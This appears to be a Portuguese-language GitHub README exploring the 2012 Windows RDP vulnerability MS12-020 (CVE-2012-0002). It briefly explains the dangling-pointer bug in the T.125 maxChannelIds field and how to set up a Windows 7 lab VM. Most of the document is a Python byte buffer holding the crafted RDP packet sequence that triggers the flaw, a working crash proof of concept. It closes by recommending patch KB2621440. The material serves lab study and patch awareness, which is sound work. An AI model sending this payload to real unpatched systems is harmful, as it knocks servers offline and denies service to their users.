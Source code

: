 # Exploring-MS12-020 / CVE-2012-0002

***"The Microsoft Remote Desktop Protocol (RDP) provides remote display
and input capabilities over network connections for Windows-based
applications running on a server. RDP is designed to support different
types of network topologies and multiple LAN protocols."***

 - O RDP é usado pelo "Terminal Services e Remote Desktop Services" e
   funciona no nível de kernel na porta 3389.
   
  - Existe uma vulnerabilidade que ocorre no manuseio do apontador
   pendente no campo maxChannelsIds do pacote T.125 ConnectMCSPDU que
   fica nesse estado de vulnerabilidade quando setado para menor/igual ao número 5.
   
  - Observe que nas versões do Windows pós-Vista (como 7 e 2008) "parece"
   necessário ter "Permitir conexões de computadores executando qualquer
   versão da área de trabalho remota "por ser vulnerável.
   
   - A code-exec ocorre durante a desconexão usuário. A capacidade de
   exploração depende da possibilidade de controlar o ESI ou o conteúdo
   apontado por ele.

![](https://ifconfig.dk/wp-content/uploads/2014/02/RDPkill1.png)

# Instalações
Para entender como criar e instalar uma VM com o SO - Win 7, recomendo acessar o seguinte link: [https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/](https://www.comoinstalar.com.br/virtualizacao/como-instalar-o-windows-7/) 

E para fazer a instalação do VirtualBox :
[https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads) 


# Código

O buffer que deve ser adicionado é o seguinte:

```python
import socket
import sys


buf=""
buf+="\x03\x00\x00\x13" # TPKT, Version 3, lenght 19
buf+="\x0e\xe0\x00\x00\x00\x00\x00\x01\x00\x08\x00\x00\x00\x00\x00" # ITU-T Rec X.224
buf+="\x03\x00\x01\xd6" # TPKT, Version 3, lenght 470
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x7f\x65\x82\x01\x94\x04" #MULTIPOINT-COMMUNICATION-SERVICE T.125

buf+="\x01\x01\x04\x01\x01\x01\x01\xff" 
buf+="\x30\x19\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x02\x02\x04"
buf+="\x00\x00\x00\x00\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\xff\xff\x02\x04\x00\x00\x00\x02"
buf+="\x30\x19\x02\x04\x00\x00\x00\x01"
buf+="\x02\x04\x00\x00\x00\x01\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x01\x02\x04\x00\x00\x00\x00"
buf+="\x02\x04\x00\x00\x00\x01\x02\x02"
buf+="\x04\x20\x02\x04\x00\x00\x00\x02"
buf+="\x30\x1c\x02\x02\xff\xff\x02\x02"
buf+="\xfc\x17\x02\x02\xff\xff\x02\x04"
buf+="\x00\x00\x00\x01\x02\x04\x00\x00"
buf+="\x00\x00\x02\x04\x00\x00\x00\x01"
buf+="\x02\x02\xff\xff\x02\x04\x00\x00"
buf+="\x00\x02\x04\x82\x01\x33\x00\x05"
buf+="\x00\x14\x7c\x00\x01\x81\x2a\x00"
buf+="\x08\x00\x10\x00\x01\xc0\x00\x44"
buf+="\x75\x63\x61\x81\x1c\x01\xc0\xd8"
buf+="\x00\x04\x00\x08\x00\x80\x02\xe0"
buf+="\x01\x01\xca\x03\xaa\x09\x04\x00"
buf+="\x00\xce\x0e\x00\x00\x48\x00\x4f"
buf+="\x00\x53\x00\x54\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\x00\x00"
buf+="\x00\x00\x00\x00\x00\x0c\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x01\xca\x01\x00\x00\x00\x00"
buf+="\x00\x10\x00\x07\x00\x01\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x30\x00\x30"
buf+="\x00\x2d\x00\x30\x00\x30\x00\x30"
buf+="\x00\x30\x00\x30\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x00\x00\x00"
buf+="\x00\x00\x00\x00\x00\x04\xc0\x0c"
buf+="\x00\x0d\x00\x00\x00\x00\x00\x00"
buf+="\x00\x02\xc0\x0c\x00\x1b\x00\x00"
buf+="\x00\x00\x00\x00\x00\x03\xc0\x2c"
buf+="\x00\x03\x00\x00\x00\x72\x64\x70"
buf+="\x64\x72\x00\x00\x00\x00\x00\x80"
buf+="\x80\x63\x6c\x69\x70\x72\x64\x72"
buf+="\x00\x00\x00\xa0\xc0\x72\x64\x70"
buf+="\x73\x6e\x64\x00\x00\x00\x00\x00"
buf+="\xc0"

buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80"  # ITU-T Rec X.224
buf+="\x04\x01\x00\x01\x00" # MULTIPOINT-COMMUNICATION-SERVICE T.125
buf+="\x03\x00\x00\x08" #TPKT, Version 3, Length 8
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x28" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" # ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xef" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xeb" # MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xec"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c"  # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xed"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0c" # TPKT, Version 3, Lenght 12
buf+="\x02\xf0\x80" #ITU-T Rec X.224
buf+="\x38\x00\x06\x03\xee"# MULTIPOINT-COMM-SERVICE T.125
buf+="\x03\x00\x00\x0b" # TPKT, Version 3, Lenght 12
buf+="\x06\xd0\x00\x00\x12\x34\x00"  #ITU-T Rec X.224

```
Por fim, a instalação da atualização de segurança KB2621440 através da atualização do Windows fecha esta vulnerabilidade. Com isso, espero que prove meu ponto de sempre manter seu sistema atualizado.
